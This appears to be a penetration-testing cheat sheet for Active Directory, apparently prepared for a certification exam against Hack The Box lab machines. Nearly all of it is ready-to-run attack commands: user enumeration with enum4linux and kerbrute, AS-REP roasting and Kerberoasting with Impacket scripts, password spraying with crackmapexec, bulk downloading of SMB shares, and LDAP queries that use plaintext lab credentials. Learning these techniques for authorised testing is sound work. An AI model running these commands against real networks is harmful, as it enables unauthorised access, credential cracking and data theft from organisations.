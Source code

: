 
- [ ] Enum4linux

```
enum4linux -a 10.201.11.30
```




- [ ] Kerbrute
```
kerbrute userenum -d MEGACORP.LOCAL --dc 10.10.10.179 userlist.txt -t 100
```

It's time to get the valid usernames to that we can try other attacks

User & Password was given in the Challenge so will use it.
https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt
https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt

or 

```
GetADUsers.py megacorp.local/ -dc-ip 10.10.10.179
```

```
GetADUsers.py -all active.htb/svc_tgs -dc-ip 10.10.10.100
```



- [ ] GetNPUsers

ASREPRoasting
>[!bug] Don't do this mistake in the exam
- We have to provide the Domain name and not the host name for the attack

```
GetNPUsers.py MEGABANK/ -usersfile valid_user.txt -format john -dc-ip 10.10.10.172
```


```
GetUserSPNs.py active.htb/svc_tgs:'GPPstillStandingStrong2k18' -dc-ip 10.10.10.100 -request
```




- [ ] SMB Client

```
smbclient -L \\10.201.11.30
```

```
smbclient -L 10.201.11.30 -U 'anonymous'
```

```
smbclient \\\\10.10.10.182\\Data -U 'r.thompson' --password 'rY4n5eva'
```

```
smbmap -u fsmith -d EGOTISTICALBANK.local -p 'Thestrokes23' -H 10.10.10.175
```


## Download the contents of the this share

```
prompt off
```

```
recurse on
```

```
ls
```

```
mget *
```






- [ ] CrackMapexec

```
crackmapexec smb 10.201.11.30 -u '' -p '' --shares
```

```
crackmapexec smb <IP_Address> -u <user_list> -p <password>
```

```
crackmapexec smb <IP_Address> -u <user_list> -p <password_list> 
```

```
cme smb 10.10.10.182 -u 'r.thompson' -p 'rY4n5eva' --shares
```




 
 - [ ] Ldap
 
```
ldapsearch -x -H ldap://10.10.10.182 -b "dc=cascade,dc=local" "(sAMAccountName=r.thompson)"

ldapsearch -h <ip_Address> -p 389 -x -b "dc=htb,dc=local"

ldapsearch -x -H 10.10.10.182 -s base  -b '' "(objectClass=*)" "*" +

ldapsearch -x -H ldap://sizzle.HTB.local -D 'amanda@htb.local' -w 'Ashare1972' -b 'dc=htb,dc=local'


ldapsearch -x -H ldap://sizzle.HTB.local -D 'amanda@htb.local' -w 'Ashare1972' -b 'dc=htb,dc=local' "(&(objectClass=user)(memberOf=CN=Domain Admins, CN=Users,DC=htb,DC=local))" | grep sAMAccountName 

ldapsearch -H ldap://support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'dc=support,dc=htb'
```

